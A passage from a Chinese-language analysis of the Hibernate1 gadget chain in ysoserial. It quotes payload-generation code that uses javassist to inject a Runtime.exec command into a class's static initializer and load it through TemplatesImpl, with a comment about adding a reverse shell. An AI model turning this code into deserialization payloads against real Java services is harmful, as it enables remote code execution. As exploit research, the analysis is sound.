 [![](https://p0.ssl.qhimg.com/t0124da4eeaba2f3d20.png)](https://p0.ssl.qhimg.com/t0124da4eeaba2f3d20.png)

以上就是对javassist这个动态字节码生成技术的一些简介。



## 3.Hibernate1 源码深度解析

首先先看一下生成playload的最主要的一段代码

[![](https://p0.ssl.qhimg.com/t0177b374fb12d8cfe0.png)](https://p0.ssl.qhimg.com/t0177b374fb12d8cfe0.png)

挑一些比较关键的点进行讲解，首先先看Gadgets.createTemplatesImpl()方法

[![](https://p2.ssl.qhimg.com/t015bfb265c768dea72.png)](https://p2.ssl.qhimg.com/t015bfb265c768dea72.png)

以下是该方法的详细实现代码，我们来仔细观察，首先是通过TemplatesImpl.class实例化了一个TemplatesImpl对象，紧接着就是用到了我们刚才讲的动态字节码生成javassist

```
public static class StubTransletPayload extends AbstractTranslet implements Serializable `{`
/**此类为Gadget类的静态内部类*/
        private static final long serialVersionUID = -5971610431559700674L;


        public void transform ( DOM document, SerializationHandler[] handlers ) throws TransletException `{``}`


        @Override
        public void transform ( DOM document, DTMAxisIterator iterator, SerializationHandler handler ) throws TransletException `{``}`
    `}` 

...............

public static &lt;T&gt; T createTemplatesImpl ( final String command, Class&lt;T&gt; tplClass, Class&lt;?&gt; abstTranslet, Class&lt;?&gt; transFactory )
                throws Exception `{`
            final T templates = tplClass.newInstance();
            // use template gadget class
            ClassPool pool = ClassPool.getDefault();
            pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
            pool.insertClassPath(new ClassClassPath(abstTranslet));
            final CtClass clazz = pool.get(StubTransletPayload.class.getName());
            // run command in static initializer
            // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
            String cmd = "java.lang.Runtime.getRuntime().exec("" +
                command.replaceAll("\\","\\\\").replaceAll(""", "\"") +
                "");";
            clazz.makeClassInitializer().insertAfter(cmd);
            /**此刻通过javassist对当前Gadget类的StubTransletPayload这个静态内部类进行了修改
             * 在修改后的字节码中加入了一个静态代码块,
             * 代码块里的内容就是通过绝对路径使用Runtime.exec来执行"open /Applications/Calculator.app" */
            // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
            clazz.setName("ysoserial.Pwner" + System.nanoTime());
            final byte[] classBytes = clazz.toBytecode();
            /**至此生成了一个以StubTransletPayload为模板切继承了AbstractTranslet类的一个class所在包为ysoserial
             * ，该类的名字为Pwner加上一个随机数，
             * 紧接着将其变为字节码*/

            // inject class bytes into instance
            Reflections.setFieldValue(templates, "_bytecodes", new byte[][] `{`
                classBytes, ClassFiles.classAsBytes(Foo.class)
```